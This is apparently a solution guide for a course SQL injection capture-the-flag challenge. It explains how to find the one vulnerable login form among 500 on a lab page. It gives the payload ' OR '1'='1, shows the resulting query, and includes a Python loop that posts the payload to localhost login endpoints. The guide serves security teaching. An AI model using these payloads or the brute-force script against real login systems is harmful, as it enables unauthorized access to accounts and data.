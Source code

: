 # CSSE142 SQL Injection Challenge – Solution Guide

## Problem description
You are presented with a webpage that shows **500 usernames**, each with a password input field and login button.

Your objective:
> **Find and exploit one vulnerable login form using SQL injection to reveal the flag.**

Only **one** of the login forms is vulnerable.

## Step 1: Open DevTools

Open your browser's developer tools:

- Chrome: `F12` or `Ctrl + Shift + I`
- Firefox: `F12` or `Ctrl + Shift + K`

Then go to the **Console** tab.

---

## Step 2: Find the Vulnerable Form

In the console, run:

```
sessionStorage.getItem("vulnIndex")
```
This returns a number like "237", which tells you which form is vulnerable to SQL injection.

---

## 3: Locate That Form

On the page, scroll down to the corresponding form:
User 237: <username> | Password: [___________] [Login]

This is the one you want to target.

---

## Step 4: Inject Payload

In the password box for that form, enter the classic SQL injection:
' OR '1'='1

sql
Copy
Edit

Then click the **Login** button.

This will cause the backend to run:

```
SELECT * FROM users WHERE username = 'xxx' AND password = '' OR '1'='1'
```

Which always evaluates to TRUE.

## Step 5: Capture the Flag
If successful, a JavaScript alert() will pop up with the flag.

## Optional: Brute Force with Script
If you couldn’t find the right form, you could automate it:

```
import requests

for i in range(1, 501):
    url = f"http://localhost:5000/login/{i}?vuln={i}"
    res = requests.post(url, data={"password": "' OR '1'='1"})
    if "FLAG" in res.text:
        print(f"Found vulnerable form at index {i}")
        break
```
